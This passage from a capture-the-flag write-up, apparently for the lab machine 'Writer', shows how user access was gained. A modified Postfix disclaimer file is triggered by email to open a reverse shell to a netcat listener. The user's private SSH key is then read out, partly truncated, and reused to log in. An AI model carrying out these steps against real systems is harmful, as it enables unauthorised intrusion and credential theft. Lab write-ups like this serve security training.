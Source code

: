 Next we need to copy our modified disclaimer file back to the postfix folder, and then cause it to trigger by sending an email:

```text
kyle@writer:~$ cp /dev/shm/disclaimer /etc/postfix/disclaimer && python3 /dev/shm/sendmail.py
Mail sent
```

## User John Access

Switch to our waiting netcat listener to see we have our shell connected:

```text
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.15.39] from (UNKNOWN) [10.10.11.101] 36350
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's have a look around:

```text
$ whoami
john

$ id
uid=1001(john) gid=1001(john) groups=1001(john)

$ cd /home/john
$ ls -la 
-rw-r--r-- 1 john john 3771 May 14 18:19 .bashrc
drwx------ 2 john john 4096 Jul 28 09:19 .cache
-rw-r--r-- 1 john john  807 May 14 18:19 .profile
drwx------ 2 john john 4096 Jul  9 12:29 .ssh

$ ls -lsa .ssh
4 -rw-r--r-- 1 john john  565 Jul  9 12:29 authorized_keys
4 -rw------- 1 john john 2602 Jul  9 12:29 id_rsa
4 -rw-r--r-- 1 john john  565 Jul  9 12:29 id_rsa.pub

$ cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<SNIP>
BwT0yAhKXBsBk18mx8roPS+wd9MTZ7XAUX6F2mZ9T12aIYQCajbzpd+fJ/N64NhIxRh54f
Nwy7uLkQ0cIY6XAAAAC2pvaG5Ad3JpdGVyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

I found John has a .ssh folder with his keys in it. I copied it to Kali and used that to SSH in for a better shell:

```text
┌──(root💀kali)-[~/htb/writer]
└─# nano id_rsa  

┌──(root💀kali)-[~/htb/writer]
└─# chmod 600 id_rsa

┌──(root💀kali)-[~/htb/writer]
└─# ssh -i id_rsa john@writer.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$
```